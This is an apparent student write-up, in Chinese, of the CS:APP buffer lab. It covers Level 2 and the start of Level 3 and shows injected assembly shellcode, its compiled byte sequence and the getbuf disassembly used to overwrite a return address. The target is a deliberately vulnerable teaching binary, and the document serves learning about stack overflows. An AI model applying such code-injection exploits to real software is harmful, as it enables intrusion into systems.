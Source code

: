 根据 *bang* 的汇编代码，程序执行至 *0x8048ca3* 时将内存地址 *0x804d100* 处存储的值赋值给 *%eax* ，然后与内存地址 *0x804d108* 处存储的值相比较，对照其 *c* 代码，我们可以判断内存地址 *0x804d100* 处保存的正是变量 *global_value* 的值（根据 *level 1* 已知地址 *0x804d108* 处保存的为 *cookie* 值）。所以，我们需要编写攻击代码将内存地址 *0x804d100* 处改为 *cookie* 值，然后返回至函数 *bang* 的地址 *0x8048c9d* 。编写攻击代码如下：

> ```assembly
> # example_for_l2.S
> 
> movl  $0x1a245b76,0x804d100
> pushl $0x8048c9d
> ret
> ```

先编译文件 *example_for_l2.S* 得到 *example_for_l2.o* 文件，然后反汇编 *example_for_l2.o* 得到文件 *example_for_l2.d* 。具体命令如下：

> ```assembly
> linux > gcc -m32 -c example_for_l2.S
> linux > objdump -d example_for_l2.o > example_for_l2.d
> ```

> ```assembly
> # example_for_l2.d
> 
> example_for_l2.o:     file format elf32-i386
> 
> Disassembly of section .text:
> 
> 00000000 <.text>:
>    0:	c7 05 00 d1 04 08 76 	movl   $0x1a245b76,0x804d100
>    7:	5b 24 1a 
>    a:	68 9d 8c 04 08       	push   $0x8048c9d
>    f:	c3                   	ret    
> ```

所以，该段攻击代码的字节序列为："*c7 05 00 d1 04 08 76 5b 24 1a 68 9d 8c 04 08 c3*" 。将该段代码放置在存放输入字符串的首地址，并将函数 *getbuf* 返回地址设置为输入字符串的首地址，这样函数 *getbuf* 运行结束将直接跳转至攻击代码。其运行栈示意图如下：

![](/fig_l2_1.jpg)

相应输入字符串可为：

![](/fig_l2_2.jpg)

---

#### Level 3: Dynamite

该题目要求在函数 *test* 中调用 *getbuf* 后，程序仍然返回至 *test* 函数，但函数 *getbuf* 的返回值 *val* 不再是 *1* ，而应为 *cookie* 值。

> > ```assembly
> > 080491f4 <getbuf>:
> >  80491f4:	55                   	push   %ebp
> >  80491f5:	89 e5                	mov    %esp,%ebp
> >  80491f7:	83 ec 38             	sub    $0x38,%esp
> >  80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
> >  80491fd:	89 04 24             	mov    %eax,(%esp)
> >  8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
> >  8049205:	b8 01 00 00 00       	mov    $0x1,%eax
> >  804920a:	c9                   	leave  
> >  804920b:	c3                   	ret  
> > ```

